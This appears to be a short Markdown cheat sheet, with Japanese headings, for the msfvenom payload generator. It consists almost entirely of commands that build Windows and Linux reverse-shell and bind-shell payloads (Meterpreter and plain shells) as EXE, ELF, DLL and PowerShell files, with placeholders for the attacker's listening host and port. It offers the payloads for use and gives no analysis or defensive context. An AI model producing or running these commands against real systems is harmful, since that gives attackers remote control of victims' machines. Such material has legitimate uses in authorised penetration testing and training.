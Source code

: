 # msfvenom

## リスティング

``` shell
    msfvenom -l payloads #Payloads
    msfvenom -l encoders #Encoders
    msfvenom -l formats  #Format
```

* ヘルプ

```sehll
    msfvenom -h
```

* オプション

```shell
    #payload
    -p 
    #platform
    --paltform
    #format
    -f 
    #output file
    -o
```

## Windows

* ReverseShell

``` shell
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali IP> LPORT=<kali Port> -f exe -o reverse.exe
```

* BindShell

``` shell
   msfvenom -p windows/meterpreter/bind_tcp RHOST=<target IP> LPORT=<kali Port> -f exe -o bind.exe 
```

* powershell payload

``` shell
    msfvenom -p windows/x64/shell_bind_tcp --platform windows -f psh-net -o bind_shell.ps1 LHOST=<kali ip> LPORT=<kali port>
```

* dll

```shell
    msfvenom -p windows/x64/shell_bind_tcp --platform windows -f dll -o bind_shell.dll
```

## Linux

* ReverseShell

``` shell
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<kali IP> LPORT=<kali Port> -f elf > reverse.elf

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=<kali IP> LPORT=<kali Port> -f elf -o shell.elf
```

* Bind Shell

``` shell
    msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<target IP> LPORT=<kali Port> -f elf -o bind.elf
```
